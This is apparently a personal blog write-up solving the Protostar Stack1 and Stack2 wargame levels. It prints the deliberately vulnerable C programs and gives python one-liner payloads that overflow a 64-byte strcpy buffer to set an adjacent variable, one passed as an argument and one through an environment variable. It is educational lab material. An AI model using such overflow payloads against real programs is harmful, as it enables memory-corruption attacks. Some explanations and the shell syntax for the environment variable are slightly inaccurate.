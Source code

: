 ```yaml
---
layout: post
title: Buffer Overflow Examples, Overwriting a variable value on the stack - Protostar Stack1 , Stack2
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, c]
image: binary-exploitation/BOF2/0.png
redirect_from: "/BinaryExploitation-BOF2/"
---
```


<hr>
## Introduction 
#### So last week I talked about buffer overflows and solved Protostar Stack0. Today I'm gonna solve Stack1 and Stack2, they are not different from Stack0 in their objective which is changing a variable's value , but they are different in the way of changing that variable for sure. With that being said let's jump right in !
![](/images/binary-exploitation/BOF2/0.png)
#### If you haven't read my previous [post](/BinaryExploitation-BOF/) yet I recommend reading it before this.
<br>
<hr>
## Stack1
#### For this challenge we got this code : 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```
<hr>
### Breakdown
#### So this code :
#### creates a variable called "modified" and assigns a buffer of 64 chars to it.
```
volatile int modified; 
char buffer[64];
``` 
<br>
#### Checks if we supplied an argument or not.
```
 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }
```
<br>
#### Sets the value of the "modified" variable into 0 , then it copies whatever we give it `argv[1]` into the buffer of "modified".
```
modified = 0;
strcpy(buffer, argv[1]);
```
<br>
#### Then it checks if the variable's value is `0x61626364` or not
```
if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<br>
<hr>
## Solution
#### So it's similar to Stack0 except we need to set the value of the variable into a specific value which is `0x61626364` in this case. This is the hexadecimal value of "dcba" now keep in mind that when reading hex you read it from right to left not left to right. To slove this our input will be 64 chars then after that the value , let's try it.
#### Let's execute stack1 
![](/images/binary-exploitation/BOF2/1.png)
#### We get please specify an argument so let's enter anything.
![](/images/binary-exploitation/BOF2/2.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF2/3.png)
#### We get try again you got 0x00000000 , Let's try to change that by exceeding the buffer and entering any char for example "b"
```
./stack1 `python -c "print ('A' * 64 + 'b')"`
```
![](/images/binary-exploitation/BOF2/4.png)
#### And we see that the value changed to 0x00000062 which is the hex value of "b" so our exploit is working, Let's apply that.
```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```
![](/images/binary-exploitation/BOF2/5.png)
#### And we did it ! 
#### But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.
```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```
![](/images/binary-exploitation/BOF2/6.png)
<br>
<hr>
## Stack2
#### For this challenge we got this code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```
<br>
<hr>
### Breakdown 
#### This code :
#### As always creates a variable called "modified" and assigns a buffer of 64 chars to it 
```
volatile int modified;
char buffer[64];
```
<br>
#### The new thing here is a variable called "variable" which gets its value from an environment variable called "GREENIE". 
```
variable = getenv("GREENIE");
```
<br>
#### The program checks if the variable "variable" has a value or not 
```
if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }
```
<br>
#### Sets the value of modified to 0
```
modified = 0;
```
<br>
#### Then it copies the value of "variable" into the buffer of "modified"
```
strcpy(buffer, variable);
```
<br>
#### After that it checks if the value of "modified" is `0x0d0a0d0a` or not
```
if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<hr>
## Solution 
#### So this time we can't specify the value directly instead of that we have to do it through an environment variable. And this is actually a good example that shows the importance of being creative with your exploits , you won't face the same situation every time so you have to come up with an exploit that fits with the application's functionality.
#### In this situation we can apply our usual exploit and store that value into the environment variable "GREENIE".
#### But wait a minute , what is an environment variable ?
<hr>
### Environment Variables
#### Simply , Environment variables are variables that are being used to store values of some stuff that the system uses also the services can access those variables. For a better demonstration let's see an example.
#### If we take the environment variable BASH and look at it :
![](/images/binary-exploitation/BOF2/7.png)
#### We see that its value is : /bin/bash
#### So for example if I want to run bash I type bash in the terminal instead of `./bin/bash` because the system calls the variable BASH and finds its path.
#### But the system won't store a variable for every binary that exists on the system so there's an environment variable called PATH which has all the possible dirs that could contain bins, So when you type for example : python, it searches in those dirs then executes python 
![](/images/binary-exploitation/BOF2/8.png)
#### So you get the idea. Understanding environment variables is not necessary for this challenge but I wanted to talk about it just to make everything clear for anyone.
#### [More about environment variables](https://en.wikipedia.org/wiki/Environment_variable)
<br>
<hr>
#### Now let's execute stack2
![](/images/binary-exploitation/BOF2/9.png)
#### We get Please set the GREENIE environment variable.
#### There's no environment variable called GREENIE so we need to create it. We will make it's value equal to 64 chars then `0x0d0a0d0a`
#### This time we won't be able to use the value in ASCII like we did with stack1 because `0x0d` is a return `\r` and `0x0a` is a new line `\n` and we can't type those so we will use the hex values and python will translate them.
```
GREENIE = `python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')"`
```
![](/images/binary-exploitation/BOF2/10.png)
#### When we look at it we only see the 64 A's and that's because we can't see the new line or the return
#### Now we need to export it to the environment variables list then we are good to go. 
```
export GREENIE
./stack2
```
![](/images/binary-exploitation/BOF2/11.png)
#### And we did it ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Binary Exploitation article : [Binary Exploitation - Buffer Overflow Explained in Detail](/binary-exploitation/bof1/)
#### Next Binary Exploitation article : [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3](/binary-exploitation/bof3/)
<hr>
